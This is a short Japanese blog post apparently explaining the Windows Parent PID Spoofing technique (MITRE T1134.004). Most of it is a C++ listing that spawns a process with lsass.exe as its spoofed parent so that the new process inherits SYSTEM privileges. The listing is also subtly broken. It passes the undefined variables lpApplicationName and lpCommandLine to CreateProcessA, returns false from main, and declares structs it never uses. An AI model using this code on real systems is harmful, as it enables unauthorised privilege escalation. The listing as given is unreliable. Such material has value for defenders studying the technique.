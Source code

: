 ```yaml
---
title: Parent-PID-Spoofing
date: 2021-01-24
categories: [Windows, Technique, Privilege Escalation]
tags: [Windows, Privilege Escalation]
---
```


新しく作成されるプロセスには作成元の親プロセスがあります。
例えば、普通にnotepad(子プロセス)を開けば、explorerが親プロセスになります。

## Escalation
子プロセスは親プロセスの設定を引き継ぎます。
なので、`nt authority\system`権限で作成されているプロセスの子プロセスとして作成することで子プロセスも同じ権限で作成することができます。

### STARTUPINFOEX
[STARTUPINFO](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa)の拡張で[STARTUPINFOEX](https://docs.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-startupinfoexa)があります。
これを使うことで新しく作成するプロセスの親プロセスを指定することが可能です。

### Flow
1. [InitializeProcThreadAttributeList](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist): 属性リストの初期化
1. [UpdateProcThreadAttribute](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute): 属性リストの更新
1. [CreateProcessA](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa): プロセスを作成

### Code
```cpp
#include <Windows.h>

typedef struct _PROC_THREAD_ATTRIBUTE_ENTRY
{
	DWORD_PTR   Attribute;
	SIZE_T      cbSize;
	PVOID       lpValue;
} PROC_THREAD_ATTRIBUTE_ENTRY, * LPPROC_THREAD_ATTRIBUTE_ENTRY;

typedef struct _PROC_THREAD_ATTRIBUTE_LIST
{
	DWORD                          dwFlags;
	ULONG                          Size;
	ULONG                          Count;
	ULONG                          Reserved;
	PULONG                         Unknown;
	PROC_THREAD_ATTRIBUTE_ENTRY    Entries[ANYSIZE_ARRAY];
} PROC_THREAD_ATTRIBUTE_LIST, * LPPROC_THREAD_ATTRIBUTE_LIST;

// Using: main.exe <Process id of lsass.exe>
int main(int argc, char* argv[]) {
  DWORD parentProcessId{ atoi(argv[1]) };
  LPSTARTUPINFOEXA lpsiex{ new STARTUPINFOEXA() };
  LPPROCESS_INFORMATION lppi{ new PROCESS_INFORMATION() };
  PSIZE_T lpSize{ new SIZE_T() };
  bool success{ false };

  SecureZeroMemory(lpsiex, sizeof(*lpsiex));
  SecureZeroMemory(lppi, sizeof(*lppi));

  success = InitializeProcThreadAttributeList(NULL, 1, 0, lpSize);
  if (success || *lpSize == 0)
    return false;

  lpsiex->lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, *lpSize);
  if (lpsiex->lpAttributeList == nullptr) {
    HeapFree(GetProcessHeap(), HEAP_NO_SERIALIZE, lpsiex->lpAttributeList);
    return false;
  }

  success = InitializeProcThreadAttributeList(lpsiex->lpAttributeList, 1, 0, lpSize);
  if (!success) {
    HeapFree(GetProcessHeap(), HEAP_NO_SERIALIZE, lpsiex->lpAttributeList);
    return false;
  }

  HANDLE hProcess{ OpenProcess(MAXIMUM_ALLOWED, FALSE, parentProcessId) };
  if (!hProcess) {
    HeapFree(GetProcessHeap(), HEAP_NO_SERIALIZE, lpsiex->lpAttributeList);
    return false;
  }

  success = UpdateProcThreadAttribute(
    lpsiex->lpAttributeList,
    0,
    PROC_THREAD_ATTRIBUTE_PARENT_PROCESS,
    &hProcess,
    sizeof(hProcess),
    nullptr,
    nullptr
  );

  lpsiex->StartupInfo.cb = sizeof(*lpsiex);

  bool result = CreateProcessA(
    lpApplicationName,
    lpCommandLine,
    nullptr,
    nullptr,
    false,
    EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE,
    nullptr,
    nullptr,
    &lpsiex->StartupInfo,
    lppi
  );

  if (lppi->hThread)
    CloseHandle(lppi->hThread);
  if (lppi->hProcess)
    CloseHandle(lppi->hProcess);
  HeapFree(GetProcessHeap(), HEAP_NO_SERIALIZE, lpsiex->lpAttributeList);
  return result;
}
```

# Reference
[Access Token Manipulation: Parent PID Spoofing, Sub-technique T1134.004 - Enterprise | MITRE ATT&CK®](https://attack.mitre.org/techniques/T1134/004/)